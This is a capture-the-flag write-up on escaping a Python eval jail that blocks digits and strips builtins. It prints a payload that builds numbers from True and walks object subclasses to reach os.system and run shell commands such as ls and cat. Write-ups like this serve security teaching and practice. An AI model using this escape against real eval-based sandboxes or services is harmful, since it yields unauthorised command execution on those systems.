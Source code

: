 Title: Cult of Vim

Description:
```
I thought exiting Vim was hard enough... now I can't even exit Python??

Your goal is to get a shell, good luck!

nc alpha.8059blank.ml 7002
nc beta.8059blank.ml 7002

Author: Lucas
```

Given files: [vim.py](https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Misc/Cult%20of%20Vim/vim.py "vim.py")

Given hints: Dictionary comprehension might help with the number blacklist

vim.py:

```python
print("You can't even exit()... hehehe...")

filter = '0123456789'
while True:
    print('>', end=' ')
    inp = input()
    if any([True for l in inp if l in filter]):
        print('no')
        continue
    try:
        print(eval(inp, {'__builtins__': {}}))
    except Exception as e:
        print(e)
```

This is similar to the Church of Emacs challenge, but \_\_builtins__ cannot be used, so \_\_import__ cannot be used also. Also, numbers are also removed. In the hint, we can use dictionary comprehension to bypass the number filter, but I got a better method, ```True = 1``` in python, so we can just use 'True' to replace numbers.

Some websites that helped me:

https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html

https://blog.p6.is/Python-SSTI-exploitable-classes/

My main payload was this:

```''.__class__.mro()[True].__subclasses__()[(True+True)*(True+True)*(True+True)*(True+True)*(True+True)*(True+True+True+True)+(True+True)*(True+True)*(True+True)*(True)+True].__init__.__globals__['system']('<SHELL COMMAND>')```

So first I did 'ls' to list all files in the directory, and then I used 'cat' to get the flag.

![image](https://user-images.githubusercontent.com/63996033/199573466-4480136a-ff7d-49b3-a44d-35eaa2faca4e.png)

We got our flag.

Flag: ACSI{:q_was_easier...}
